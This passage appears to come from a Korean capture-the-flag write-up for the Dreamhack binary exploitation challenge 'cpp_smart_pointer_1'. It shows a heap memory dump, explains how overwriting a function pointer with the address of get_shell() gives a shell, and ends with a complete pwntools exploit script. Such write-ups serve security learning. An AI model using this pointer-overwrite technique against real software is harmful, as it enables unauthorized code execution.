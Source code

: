 ```
0xc2bcf0:       0x0000000000000000      0x0000000000000000
0xc2bd00:       0x0000000000000000      0x0000000000000000
```

0xc2bc10의 데이터 영역을 보면 get_shell() 함수의 주소인 0x000000000040161d가 정상적으로 들어갔다. 이후 case 3에서 fp를 호출하면 0xc2bc10의 데이터 영역인 0xc2bc20의 포인터 값인 0x40161d가 실행되어 쉘을 획득 할 수 있다.

아래는 최종적으로 나온 익스플로잇 코드다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

#p = remote("host3.dreamhack.games", 21727);
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
p = process("./cpp_smart_pointer_1")
elf = ELF("./cpp_smart_pointer_1")
#libc = ELF("./libc.so.6")

get_shell = 0x40161d

p.sendlineafter(b"[*] select : ", b"2")
p.sendlineafter(b"Select pointer(1, 2): ", b"2")

p.sendlineafter(b"[*] select : ", b"4")
p.sendlineafter(b"write guestbook : ", p64(get_shell))

p.sendlineafter(b"[*] select : ", b"4")
p.sendlineafter(b"write guestbook : ", p64(get_shell))

p.sendlineafter(b"[*] select : ", b"3")
p.sendlineafter(b"Select pointer(1, 2): ", b"1")

p.interactive()
```